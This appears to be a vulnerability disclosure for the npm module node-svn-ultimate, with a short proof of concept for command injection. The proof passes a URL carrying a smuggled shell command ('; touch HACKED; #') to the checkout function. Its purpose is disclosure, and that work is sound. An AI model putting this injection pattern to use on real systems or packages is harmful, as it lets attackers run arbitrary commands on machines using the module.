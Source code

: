 # :bug: Description

The `node-svn-ultimate` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var svnUltimate = require('node-svn-ultimate');
svnUltimate.commands.checkout( 'https://my.url/test; touch HACKED; #', 'test', function( err ) { console.log( "Checkout complete" ); } );
# Wait some seconds

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i node-svn-ultimate # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
